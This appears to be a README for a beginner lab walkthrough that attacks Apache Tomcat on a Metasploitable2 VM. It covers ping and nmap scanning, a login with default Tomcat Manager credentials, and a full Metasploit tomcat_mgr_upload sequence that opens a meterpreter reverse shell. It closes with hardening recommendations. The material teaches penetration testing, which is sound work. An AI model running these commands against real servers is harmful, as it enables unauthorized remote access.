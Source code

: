 # Penetration-Test
🔐 Apache Tomcat Penetration Testing – Metasploitable2 (CTF Style Lab)
📘 Overview
This is a beginner-friendly penetration testing walkthrough that simulates a real-world attack on an Apache Tomcat server running on Metasploitable2, hosted in a VirtualBox lab environment. The objective is to identify open ports and exploit the Apache Tomcat Manager running on port 8081 to gain remote.

# 🖥️  Lab Setup

### Component	Details

Target Machine	- Metasploitable2

Attacking Machine -	Kali Linux

Virtualization Tool	- Oracle VirtualBox

Network Type	- Host-Only Adapter

Target IP Address -	192.168.1.4

Attacker IP	-Automatically assigned by Host VM

# 🔧 Tools Used

🔍 Nmap – Port scanning and service enumeration

🧰 Metasploit Framework – Exploitation framework

📡 Ping – Basic reachability test

📁 VirtualBox – Lab environment


# 📡 Step-by-Step Penetration Test

🔍 Host Discovery – Ping Scan

  ping 192.168.1.4

This basic network diagnostic command used to check if a host (192.168.1.4) is reachable over the network.

📘 What It Does

Sends ICMP Echo Request packets to the target IP (192.168.1.4).

Waits for ICMP Echo Reply packets.

Measures latency (round-trip time) and packet loss.


🧠 Purpose

Check if a host is online or offline.

Test basic connectivity between your device and the target.

Diagnose network issues (e.g., delays, dropped packets).



🔎 Network Port Scanning – Nmap

  Nmap -T4 -A -v 192.168.1.4
  

# 🕵️ Service Enumeration – Apache Tomcat (Port 8081)

Accessing http://192.168.1.4:8081 in the browser loads the Apache Tomcat Manager Interface.

Default credentials were attempted:

tomcat:tomcat

admin:admin

⚠️ Default credentials successfully granted access.


#💣 Exploitation – Metasploit Framework

msfconsole

# Use Apache Tomcat Manager Exploit:

use exploit/multi/http/tomcat_mgr_upload

set RHOSTS 192.168.1.4

set RPORT 8081

set HttpUsername tomcat

set HttpPassword tomcat

set PAYLOAD java/meterpreter/reverse_tcp

set LHOST < Assigned Kali IP>

set LPORT 4444

run


# 🧠 Post Exploitation – Meterpreter Access

Exploit runs successfully, a Meterpreter session opens:

meterpreter > sysinfo

Output:

Computer: metasploitable
OS: Linux 2.6.24-16-server
User: tomcat


# ✅ Summary of Findings
Category    	        Details

Target System	    -    Metasploitable2 (Linux)

Vulnerability     -   	Weak credentials on Apache Tomcat Manager

Exploited Service  -  	Apache Tomcat (port 8081)

Exploit           -    Used	tomcat_mgr_upload

Payload	          -    java/meterpreter/reverse_tcp

Access Level Gained	 - User shell (Tomcat privileges)



# 🛡️ Recommendations

❌ Disable default credentials or set strong, unique passwords for Tomcat Manager.

🔐 Restrict access to the Tomcat Manager interface (e.g., firewall rules or internal network only).

⬆️ Keep Apache Tomcat patched and up-to-date.

🔍 Monitor logs for suspicious upload attempts or unauthorized access.



# 🧠 Notes
This test is conducted in a controlled lab environment and does not represent a real attack on a production system.

Always ensure you have proper authorization before performing any kind of penetration test.




